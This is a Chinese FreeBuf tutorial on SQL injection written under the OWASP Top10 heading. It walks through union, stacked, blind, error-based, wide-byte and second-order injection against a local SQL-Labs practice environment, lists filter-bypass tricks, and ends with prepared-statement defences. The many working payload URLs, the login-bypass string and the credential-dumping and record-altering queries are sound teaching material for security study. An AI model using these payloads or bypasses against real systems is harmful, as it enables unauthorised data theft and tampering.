

# 【深蓝实验室】OWASP Top10 之 SQL Injection - FreeBuf 网络安全行业门户

## 0x00 OWASP Top10

OWASP(开放式 Web 应用程序安全项目) 是一个开源、非盈利性的全球性安全组织，对所有致力于改进 Web 应用程序安全的人士开放，旨在提高对应用程序安全性的认识。其最具权威的就是”10 项最严重的 Web 应用程序安全风险列表“，总结并更新 Web 应用程序中最可能、最常见、最危险的 10 大漏洞，是开发、测试、服务、咨询人员应知应会的知识。


## 0x01 前言

时隔多年 OWASP Top10 2021 新鲜出炉啦，最近正好想回头巩固一下基础知识，借着这个机会就看了一下新的 Top10。相比 2017 版的有如下变化，下图取自 OWASP 官网：


从图中不难看出 2017、2021 版的 10 大漏洞按照从 A1-A10 的排序分别是：

| OWASP Top10 2017 | OWASP Top10 2021 |
| --- | --- |
| 注入式攻击 | 权限控制失效 |
| 失效的身份验证 | 加密机制失效 |
| 敏感数据暴露 | 注入式攻击 |
| XML 外部实体漏洞 (XXE) | 不安全设计 |
| 无效的访问控制 | 安全设定缺陷 |
| 安全配置错误 | 危险或过旧的组件 |
| 跨站脚本攻击 (XSS) | 认证及验证机制失效 |
| 不安全的反序列化漏洞 | 软件及资料完整性失效 |
| 使用具有已知漏洞的组件 | 安全记录及监控失效 |
| 日志记录和监控不足 | 服务端请求伪造 |

从报告对比发现其中注入攻击一直是名列前茅的，除去这两份报告之前的 2013 版 Top10 报告注入攻击也是排名第一，所以可见其危害性。下面就结合靶场外加常见防御和绕过来学习注入攻击之一的 SQL 注入。

## 0x02 介绍

SQL 注入是一种攻击方式，在这种攻击方式中，在字符串中插入恶意代码，然后将该字符串传递到数据库的实例以进行分析和执行。构成 SQL 语句的任何过程都应进行注入漏洞审阅，因为数据库将执行其接收到的所有语法有效的查询。攻击者可以操作参数化数据。我们经常遇到的 B/S 架构的业务系统，通常这些业务系统都是通过以下接口调用数据库的内容的：URL、用户登录框、留言板、搜索框等。往往就是这些接口就能给我们带来安全隐患。所以，为了你，为了他，为了大家特地水一篇关于 SQL 注入的文章。

## 0x03 原理

SQL 注入的主要形式包括直接将代码插入到与 SQL 命令串联在一起并使其得以执行的用户输入变量。一种间接的攻击会将恶意代码注入要在表中存储或作为元数据存储的字符串。在存储的字符串随后串连到一个动态 SQL 命令中时，将执行该恶意代码。

注入过程的工作方式是提前终止文本字符串，然后追加一个新的命令。由于插入的命令可能在执行前追加其他字符串，因此攻击者将用注释标记“--”来终止注入的字符串。执行时，此后的文本将被忽略。

**0x04 数据库介绍**

## 0x04 注入分类

### 参数类型分类

#### 数字型注入

数字型注入，顾名思义就是当输入的参数为整型时，经过恶意构造 payload 如果存在注入漏洞，那就是数字型注入啦。

**后面都将会用 SQL-Labs 来做举例**

正常访问页面显示是正常的

```plain
http://10.211.55.27/Less-2/?id=1
```


在 id 参数后面加单引号`'`显示报错了，可以以此作为依据判断是否存在 SQL 注入之一

```plain
http://10.211.55.27/Less-2/?id=1%27
```


参数 id 后添加`and 1=1`页面显示正常

```plain
http://10.211.55.27/Less-2/?id=1%20and%201=1
```


将 and 1=1 替换成 and 1=2 页面显示异常，据此可以判断为数字型

```plain
http://10.211.55.27/Less-2/?id=1%20and%201=2
```


再来看一下代码部分，红框中的 SQL 语句直接被当作函数传入执行，其中`$id`部分没有使用单引号说明是数字型


#### 字符型注入

字符型注入特点就是参数是字符型的也就是单引号括起来的`''`字符串

和数字型同理顺手加一个单引号看是否报错，报错了的

```plain
http://10.211.55.27/Less-1/?id=1%27
```


字符型的注入需要注意符号的闭合，这里我们加注释符 --+ 此时返回是正常的

```plain
http://10.211.55.27/Less-1/?id=1%27--+
```


字符型此处代码在参数$id 的位置多了一个`''`这个不一定就是上例中的闭合方式，下面列举了几种常见，根据实际情况修改。

```plain
?id=1'--+
?id=1"--+
?id=1')--+
?id=1")--+
等等。。。。。。
```


### 注入位置分类

#### GET 注入

GET 就可以理解为通过 HTTP 的 GET 方式去进行注入攻击，这里使用 Hackbar 插件来以 GET 发送 payload


#### POST 注入

POST 即为 POST 的方式进行注入攻击，通常此类方式一般在用户登录框处比较常见。这里我们用 BP 抓一个 POST 包看一下，随便输入一个密码是登录失败的。



这里我们用到了另一个点就是 **万能密码**`admin'or'1'='1`这里我们利用万能密码的方式可以成功登录


看一下此处登录框的代码，我们插入的 payload`admin'or'1'='1`组合成的$sql 查询语句为，这样就可以免去密码的校验直接登录

```plain
SELECT username, password FROM users WHERE username='admin'or'1'='1' and password='$passwd' LIMIT 0,1
```


#### 其他 HTTP 注入

##### Cookie

Cookie 注入就是注入点在请求头的 Cookie 字段处，BP 抓包看一下，`Cookie: uname=admin`


我们在 Cookie 处加一个单引号，返回包提示数据库查询出错了


使用`--+`注释一下，返回正常了，说明存在 Cookie 注入


##### User-Agent

User-Agent 简称 UA，一般网络请求都会带这个东西，它标识了你自己的一些电脑信息、用户信息、应用类型、操作系统、软件版本号，这些信息组合起来的一个字符串信息。这个包括下面的几个 HTTP 头部的注入，实战一般很少会遇到，这里就简单讲一下原理。

OK，下面我们还是拿 SQL-Lab 来做一下演示，正常输入账号密码登录，抓一下包，看一下 UA 头是正常的。


加一个单引号看一下效果。可以看到 SQL 语句报错了，证明是存在 SQL 注入的。


下面我们将语句闭合一下，发现回显正常了，这样就造成了 UA 头的 SQL 注入。


##### Referer

Referer 的主要作用就是标明一个来源信息，比如我们从 www.baidu.com 点一个 www.google.com 的链接，那么我们的 Referer 头的位置就会有一个 www.baidu.com 的标记，用来表示我们是从百度这个 URL 过来的。有的业务系统会去校验这个 Referer 头内容，那么就有可能会造成 SQL 注入。老规矩 BP 抓一下包

正常的请求包，回显正常的 Referer 头信息


后面加一个单引号看一下，报错了，这几个 HTTP 头的注入大同小异，实战遇到的较少，可以作为了解。


### 注入手法分类

上面我们判断了 SQL 注入的类型和位置，下面我们就看一下常用的一些注入手法

#### 联合查询注入

前面正常判断注入类型，然后利用 order by 去查询表的列数，order by 是 SQL 语句中的关键字，用于对查询结果的排序，order by 关键字用于对结果集按照一个列或者多个列进行排序，默认按照升序对记录进行排序，如果要按照降序进行排序，可以使用 DESC 关键字。

这里判断一下列数，1，2，3，4 四的时候会报错，1，2，3 就正常，证明这个表只有 3 列

```plain
http://10.211.55.27/Less-1/?id=1%27%20order%20by%201,2,3%20--+
```


此处是有回显的我们可以直接用联合查询注入 union select，联合查询的作用就是在原来的查询条件基础上，通过关键字 union 从而拼接上 select 语句，这里注意一下要原本的 id=1 为 false，修改成 id=-1，这样是为了返回一空表，为 union select 查询的数据方便拼接显示，还要注意前后两个 select 语句的返回的字段必须相同，要不然没有办法正常拼接。

```plain
http://10.211.55.27/Less-1/?id=-1%27%20union%20select%201,2,3%20--+
```


这里两个显示位将 2 和 3 显示出来了，这样我们就可以利用这两个显示位去枚举我们想要的数据，这里测试显示一下数据库版本。同理可以回显出其他查询结果


#### 堆叠注入

堆叠注入顾名思义就是多条 SQL 语句堆叠到一起执行的，SQL 语句是根据`;`来判断一条语句是否结束的，堆叠注入就是将多条语句通过`;`分割的注入方式。既然可以执行多条 SQL 语句那么优势也很明显，对比上面的 union 查询，可以多一些增删改查的操作，但是也有鸡肋的地方，比如有的场景会限制不能执行多语句操作，还有修改数据库的操作可能需要更高的权限。

正常页面显示


参数后面添加单引号报错，使用上面的联合查询走一遍


看一下显示位

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,3%20--+
```


查询一下数据库表名

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,database()%20--+
```


查询一下表名，共有 4 个表

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20--+
```


查一下字段名，获取一下用户账号，然后利用堆叠注入我们再自己添加一个账号

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27%20--+
```


获取一下用户账号密码看到了 Dumb Dumb

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(username,%27|%27,password)%20from%20users%20--+
```


下面我们就利用堆叠注入修改一下他的账号`Dumb111`

```plain
http://10.211.55.27/Less-38/?id=-1%27;%20update%20users%20set%20username=%27Dumb111%27%20where%20username=%27Dumb%27--+
```


#### 延时注入

延时注入就是利用了 sleep() 函数根据响应延迟时间判断是否存在注入，延时注入最大的缺点就是注入利用的时候特别慢，下面找个测试环境试一下，正常发包右下角延时是 1 秒左右


下面我们加一下 sleep(10) 看一下效果，延迟加载时间为 10 秒说明存在延时注入的

```plain
http://10.211.55.27/Less-9/?id=1%27%20and%20sleep(10)--+
```


延时注入适用于无法回现和显示页面为错误页面的场景，这里通过判断数据库的长度或者其他数据库信息的长度，根据是否存在延迟来判断我们提交的信息是否有误，当我们判断数据库名字长度为 3 时，存在一个 10 秒的延时。

```plain
http://10.211.55.27/Less-9/?id=1%27%20and%20if(length(database())=3,1,sleep(10))--+
```


当我们长度改成 8 的时候，正好符合数据库的字符长度，此时就不会存在延时的问题了

```plain
http://10.211.55.27/Less-9/?id=1%27%20and%20if(length(database())=8,1,sleep(10))--+
```


在 mysql 的延时注入用的是 sleep，而在 Oracle 中用到的是 DBMS-Pipe.Receive-Message 来延时数据库处理时间，`DBMS_PIPE.RECEIVE_MESSAGE('RDS',5)`

#### 布尔盲注

布尔盲注其实和延时注入差不多，都属于盲注的一种，我们可以通过逻辑判断 true 和 false 来辨识我们的操作是否是正确的。比如我们在 where 条件后加一个 and 1=2，因为 1 永远不会等于 2，所以这个条件就永远判断为假，那么就会导致整个 select 语句不会返回内容，那么这样就可以和正常页面对比，这样就可以用布尔盲注

首先用一下 SQL-Lab 的环境，前面我们知道了用户的这个数据库是 security，那么我们就利用这个看一下布尔注入常用的几个函数。

简单的逻辑判断为 true，页面显示正常

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%201=1%20--+
```


当为 1=2 的时候判断为 false 所以当前页面显示异常

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%201=2%20--+
```


利用这个特性我们就可以通过这个来判断我们的操作是否是正确的，根据页面的回显来判断我们的操作是否是正确的。这里是判断我们当前数据库`security`的第一个字符是否是`s`

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%20left(database(),1)=%27s%27%20--+
```


我们把`s`换成`w`页面就显示异常了，实战中我们是不知道这个字符`s`的，我们可以利用 FUZZ 的手段去进行枚举。


除了 left 之外还有几个函数可以用于此种场景

like()

这里用了 like 去匹配用户名中包含 root 的账号，判断为 true 页面返回正常

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%20(select%20user()%20like%20%27ro%%27)--+
```


regexp() 和 like() 有点相似，他是用的正则表达式的用法

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%20(select%20user()%20regexp%20%27ro*%27)--+
```


还有一种是 order by 的盲注，可以通过 order by rand(True 或 False) 的顺序判断。

#### 报错注入

报错注入就是通过我们自己构造的错误语句，使查询的结果能通过错误信息的回显反馈给我们，但是报错注入的前提可以没有像联合查询那种显示位，但是必须要有一个 SQL 报错回显的位置。

这里列举一下常见的报错注入用到的函数：floor()、extractvalue()、updatexml()、geometrycollection()、multipoint()、polygon()、multipolygon()、linestring()、multilinestring()、exp()

extractvalue() 是从目标 XML 中返回包含所查询值的字符串，extractvalue() 函数包含了两个参数 xml\_document 和 xpath\_string。xml\_document 是一个 String 类型的 xml 文档对象名称，xpath\_string 就是 xpath 格式的。

xml 文档中如果查找字符串不是/xx/xx/这种格式那么就会报错，并且返回报错内容。报错的格式为：XPATH syntax error: 'xxxxxxx'

这里用测试环境看一下效果，database() 可以替换成其他语句

```plain
http://10.211.55.27/Less-1/?id=1%27%20and%20extractvalue(1,concat(0x7e,database()))%20--+
```


updatexml() 函数的作用就是更新 xml 文档，我们可以将查询语句嵌入到 updatexml 的更新语句中，当我们输入不符合规则的语句之后就会导致 updatexml 报错，但是我们嵌入的语句已经被执行。这个函数包含三个参数 xml\_document、XPathstring(Xpath 格式的字符串)，做内容定位、new\_value 替换查找符合条件的值。

老样子测试环境看一下效果

```plain
http://10.211.55.27/Less-1/?id=1%27%20and%20updatexml(0x7e,concat(0x7e,database()),0x7e)%20--+
```


floor() 报错注入，这个函数是同时和 count、rand、group by 这几个函数结合起来使用的，floor() 的作用就是对参数进行向下取整、rand() 生成一个随机浮点数、count(\*) 统计表下面多少条记录、group by 按照 by 后面的规则进行排序。

group by 和 rand 同时使用时，如果临时表中没有该主键，则在插入前会再计算一次 rand，然后再由 group by 将计算出来的主键直接插入到临时表格中，导致主键重复报错，这里注意一下 是插入！！！！！不是在原来的 count 基础上做累加。

这里简单说一下关于用到的几个函数，首先 floor 吧，他的作用就是向下取整，也就是如果数字是 1.3、1.9 那么他都会取整变成`1`，rand 的作用就是生成一个 0-1 的随机数，但是 rand(0) 就会生成一个我们可控的数，rand(0) 生成的这个数也称为伪随机数。


那么这里将 floor 和 rand 组合使用的效果，我们看一下，可以看到下图永远被取整为 0


但是下面我们使用 floor(rand(0)\*2)，就可以控制我们 floor 后的数值了，这个顺序就是 0 1 1 0 1 1 0 0.......

```plain
select floor(rand(0)*2),database() from users;
```


count(\*) 这个就是统计的作用

group by 的作用就是生成一个虚拟的表，这个虚拟表会统计数据的数值，这里 group by 后面的`xxx`就等于`concat(floor(rand(0)*2),database())`,

```plain
select concat(floor(rand(0)*2),database())as xxx ,count(*) from users group by xxx ;
```

这条查询报错语句的 payload，流程如下

首次执行前，group by 生成的虚拟表是空的，大约就是这个样子的


首次执行时，由于我们之前知道随机数生成的顺序所以这里第一次肯定是为 0 的，mysql 官方有说明查询使用 rand 和 group by 的时候，也就是被计算多次的时候 floor(rand(0)\*2) 会被执行一次，但是如果 group by 的表中没有记录，那么就会再被执行一次插入记录。


看一下上面的表格在第三次查询为空的时候，又执行了一次做了一个插入的动作，插入的内容也就是 0 1 1 0 1 最后这个`1`的位置拼接的内容 1security，这里有的人可能会有疑问为什么不累加到 count 了，因为这里的 1security 是插入的！！！插入！，所以已经存在这个主键了，再插入就会报错。

```plain
http://10.211.55.27/Less-1/?id=-1%27%20union%20select%201,count(*),concat(floor(rand(0)*2),database())as%20x%20from%20information_schema.tables%20group%20by%20x%20--+
```


下面列一下其他几种报错注入的利用

```plain
##geometrycollection()
and geometrycollection((select * from(select * from(select user())a)b));

##multipoint()
and multipoint((select * from(select * from(select user())a)b));

#polygon()
and polygon((select * from(select * from(select user())a)b));

#multipolygon()
and multipolygon((select * from(select * from(select user())a)b));

#linestring()
and linestring((select * from(select * from(select user())a)b));

#multilinestring()
and multilinestring((select * from(select * from(select user())a)b));

#exp()
and exp(~(select * from(select user())a));
```

#### 宽字节注入

宽字节注入是利用 mysql 在使用 GBK 编码的时候会认为两个字符为一个汉字，如果 mysql 用了 addslashes 会对预定义字符`单引号' 双引号" 反斜杠\ NULL`, 添加反斜杠你输入的单引号就会被转译`id=1\'`这样单引号就没有办法去闭合了，在这种场景下我们就可以用到宽字节注入了，当编码格式为 GBK 时，因为反斜杠`\`的编码为`%5c`所以可以用`%df`和`%5c`做一下拼接变成`id=1%df%5c`通过 GBK 的编码就会变成一个汉字，失去了转译的功能，从而闭合了语句。除了 GBK 还有其他的一些宽字节：GB2312、GB18030、BIG5、Shift\_JIS

这里使用 SQL-Lab 的测试环境看一下效果，加了一个单引号但是被转译了


我们构造一下利用 GBK 编码特性绕过一下

```plain
http://10.211.55.27/Less-32/?id=1%df%27
```


数据库查询报错了，--+ 闭合一下


查一下数据库测试一下

```plain
http://10.211.55.27/Less-32/?id=-1%df%27%20union%20select%201,2,database()--+
```


#### 二次注入

二次注入说白了就是在先前构造语句后面再追加一次构造语句，对用户的输入被读取后再次进入到 SQL 查询语句中导致的二次注入，普通注入一般会在 http 后面构造语句 payload 很明显容易被发现拦截，二次注入是先构造语句其中包含被转义字符的语句，将我们构造的恶意语句存入数据库，因为第二次构造语句本就是恶意的，在被第二次调用的时候就会造成二次注入。

这里在数据库测试一下，发现我们插入语句使用了`\`去做一个转义，但是后端表里的数据并没有`\`转义还是恶意的


按照这个逻辑我们看一下 SQL-Lab 的环境，在新注册用户的地方添加一个账号`admin'#`密码`123456`


在后台看到含有 payload 的账号是没有`\`转义的 密码为 123456


使用我们创建好的带 payload 的账号 admin'#登录之后，修改密码为`admin@123`


但是后台数据库看一下实际修改的其实是 admin，原来的 admin'#的密码并没有修改。


后台看一下修改密码这一块的代码，这里判断执行了一个 UPDATE 更新语句，用来修改密码，这里把我们之前插入的 admin'# 带入其中看一下拼接后的 SQL 语句


拼接后的 SQL 语句，username 拼接了 admin'# 导致后面部分被注释掉了，只剩 admin 了。所以修改的就是 admin 的密码

```plain
UPDATE users SET PASSWORD='123456' where username='admin'#' and password='$curr_pass'
```


## 0x05 常见绕过

对于一些常见的拦截比如：union、select、and、or 等关键字利用正则匹配来过滤，注意观察他的正则匹配规则就可绕过。

如：

-   双写 uniunionon 来绕过
    
-   大小写绕过
    
-   双写 anandd、oorr
    
-   使用&&、|| 替换掉 and、or
    
-   ^拼接等等
    
-   空格绕过过滤可以使用多括号嵌套、加号`+`替换、/\*! \*/注释替换、and/or 后面可以跟上偶数个!、~可以代替空格，也可以混合使用
    
-   逗号被过滤就用盲注、使用 join 代替
    
-   还可以使用 hex 进行转换绕过
    

## 0x06 防御

了解了上面 SQL 注入的几种大类下面就该聊一下关于怎么防止被 SQL 注入，其实不难看出上面注入用的 payload 形式无非就是以下这些

```plain
.
\
and 1=1 
and 1=2
+1
-1
sleep(5) 等等
```

当然如果只是依靠这些常见关键字添加黑名单的话是很容易被混淆绕过的，下面介绍常见的防御措施——预编译

### 预编译

#### JSP

常见的 JSP 预防注入使用 preparestatement 对其进行编译优化，使用`？`代替参数预先编译好，SQL 引擎会预先进行语法分析，也就是说不管你输入的是什么，都不会影响 SQL 语句的语法结构了，因为语法分析已经完成了，当 payload 执行时传递的参数会被看作字符串，。但是预编译也不是一定就是安全的，比如有些场景是必须使用字符串拼接例如`"select * from test where id="+id`这种就需要我们对用户输入的参数进行严格的检查，比如只能限制整型，或者加个正则特殊字符编码。常见的 mybatis 和 ibatis 使用`#{}`进行预编译，换个思路如果在代码审计的时候遇到 mybatis 的如果恰巧又使用了`${}`那么他就可能存在 SQL 注入了。还有%作为 like 语句中的参数时就要对他进行转义了。

#### PHP

PHP 用到的则是 PDO，PDO 是个啥呢，他是 PHP 数据对象 PHP Data Object，PDO 相当于一个类用来被调用的，实例化 PDO 的对象后，也是使用了占位符的形式，这里首先将传入的 SQL 语句做预编译处理，将该函数传入 prepare 函数后，预处理函数会得到 SQL 语句的模板类，模板类可以防止危险变量改变语句的语义，然后用 bindParam 函数对用户传入的值做一个绑定，最后执行。

```plain
$data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' ); 
$data->bindParam( ':id', $id, PDO::PARAM_INT ); 
$data->execute();
```

## 0x07 最后

关于 OWASP Top10 中注入攻击的细分太多包括，这里只拿出了 SQL 注入中的 Mysql 部分来简单总结一下，SQLServer 和 Access、Oracle 等大同小异，有总结的不对的地方望大佬斧正。

## 0x08 参考

> https://github.com/Audi-1/sqli-labs
> 
> https://www.cnblogs.com/yunen/p/12340072.html
> 
> https://www.freebuf.com/articles/web/216336.html
